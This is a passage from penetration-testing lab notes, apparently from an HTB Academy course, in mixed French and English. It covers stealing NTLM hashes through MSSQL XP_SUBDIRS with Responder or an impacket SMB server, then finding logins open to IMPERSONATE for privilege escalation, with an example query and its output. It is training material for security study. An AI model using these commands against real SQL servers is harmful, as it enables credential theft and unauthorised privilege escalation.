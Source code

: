 #### <mark style="color:green;">**XP\_SUBDIRS Hash Stealing with Responder**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo responder -I tun0
```
{% endcode %}

#### <mark style="color:green;">**XP\_SUBDIRS Hash Stealing with impacket**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo impacket-smbserver share ./ -smb2support
```
{% endcode %}

***

### <mark style="color:blue;">Impersonate Existing Users with MSSQL</mark>

SQL Server a une permission spéciale, appelée IMPERSONATE, qui permet à l'utilisateur en cours d'exécution d'adopter les permissions d'un autre utilisateur ou login jusqu'à ce que le contexte soit réinitialisé ou que la session se termine. Explorons comment le privilège IMPERSONATE peut mener à une élévation de privilèges dans SQL Server.\
D'abord, nous devons identifier les utilisateurs que nous pouvons usurper. Les administrateurs système (sysadmins) peuvent usurper n'importe qui par défaut. Mais pour les utilisateurs non administrateurs, les privilèges doivent être attribués explicitement. Nous pouvons utiliser la requête suivante pour identifier les utilisateurs que nous pouvons usurper :

#### <mark style="color:green;">**Identify Users that We Can Impersonate**</mark>

```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```

To get an idea of privilege escalation possibilities, let's verify if our current user has the sysadmin role:

